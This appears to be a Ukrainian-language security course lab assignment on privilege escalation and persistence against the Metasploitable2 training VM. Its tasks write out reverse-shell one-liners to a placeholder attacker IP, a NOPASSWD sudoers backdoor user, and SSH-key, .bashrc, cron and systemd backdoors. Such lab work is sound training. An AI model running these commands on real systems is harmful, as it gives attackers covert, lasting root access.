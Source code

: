 # 🛡️ Lab 6: домашнє завдання: Privilege Escalation та Закріплення доступу (Metasploitable2)

> **📋 Вимоги:**
>
> - ✅ Виконати всі завдання на віртуальній машині Metasploitable2.
> - 📸 Кожен пункт має супроводжуватись скріншотами або виводом команд (для звіту).
> - ⚠️ Використовувати лише етичні підходи у тестовому середовищі.

---

## 🔓 1. Підвищення привілеїв через world writable files

**Завдання:**

1. 🔍 Знайти файли з правами `-rw-rw-rw-` або `-rwxrwxrwx`:
   ```bash
   find / -writable -type f 2>/dev/null
   ```
2. 🧪 Виявити, чи є серед них виконувані скрипти або бінарники, що викликаються з підвищеними правами (наприклад через sudo/cron).
3. ✍️ Замінити вміст скрипта на payload типу:
   ```bash
   /bin/bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
   ```
4. 📞 Отримати реверс шелл.

---

## ⏰ 2. Підвищення привілеїв через crontab

**Завдання:**

1. 🔍 Перевірити `cron` за допомогою:
   ```bash
   cat /etc/crontab
   ls -la /etc/cron.*
   ```
2. ✏️ Якщо є скрипти, що виконуються з root, перевірити їх на можливість редагування.
3. 💣 Вставити шкідливий код у відповідний скрипт (аналогічно попередньому завданню).

---

## 🧠 3. Підвищення привілеїв через suggester Metasploit

**Завдання:**

1. 🔗 Отримати початковий шелл (наприклад через vsftpd).
2. 🛠️ Завантажити та запустити `linux/local_exploit_suggester` в Metasploit:
   ```bash
   use post/multi/recon/local_exploit_suggester
   ```
3. 🎯 Спробувати запропоновані експлойти для ескалації привілеїв.
4. 📝 Зафіксувати, який метод спрацював.

---

## 🔐 4. Закріплення через SSH ключі

**Завдання:**

1. 🗝️ Створити SSH ключ:
   ```bash
   ssh-keygen -t rsa -f backdoor_key
   ```
2. 📥 Додати публічний ключ у `~/.ssh/authorized_keys` користувача з високими привілеями.
3. 🔄 Підключитися через приватний ключ:
   ```bash
   ssh -i backdoor_key user@target
   ```

---

## 👤 5. Закріплення через useradd

**Завдання:**

1. ➕ Додати користувача в систему:
   ```bash
   sudo useradd -m -s /bin/bash backdoor
   sudo passwd backdoor
   ```
2. 🧾 Додати його до `sudoers`:
   ```bash
   echo 'backdoor ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
   ```
3. ✅ Зайти під новим користувачем і перевірити доступ.

---

## 🌀 6. Закріплення через .bashrc

**Завдання:**

1. 🖊️ Додати до `.bashrc` реверс шелл:
   ```bash
   echo "/bin/bash -i >& /dev/tcp/YOUR_IP/4444 0>&1" >> ~/.bashrc
   ```
2. 📡 Запустити netcat на своїй машині:
   ```bash
   nc -lvnp 4444
   ```
3. ⏳ Дочекатися підключення, коли хтось ввійде в систему.

---

## 🕰️ 7. Закріплення через cron

**Завдання:**

1. 🧾 Створити скрипт backdoor.sh з реверс шелом.
2. 📅 Додати в `crontab`:
   ```bash
   echo "* * * * * root /path/to/backdoor.sh" >> /etc/crontab
   ```
3. 📞 Отримати доступ через netcat.

---

## 🧩 8. Закріплення через Systemd

**Завдання:**

1. ⚙️ Створити systemd сервіс:
   ```ini
   [Unit]
   Description=Reverse Shell Service

   [Service]
   ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'

   [Install]
   WantedBy=multi-user.target
   ```
2. 💾 Зберегти як `/etc/systemd/system/backdoor.service`
3. 🚀 Активувати:
   ```bash
   systemctl daemon-reexec
   systemctl enable --now backdoor.service
   ```

---

### 📦 Завершення

- 📁 Після виконання кожного завдання заархівувати артефакти: ключі, скріншоти, виводи команд.


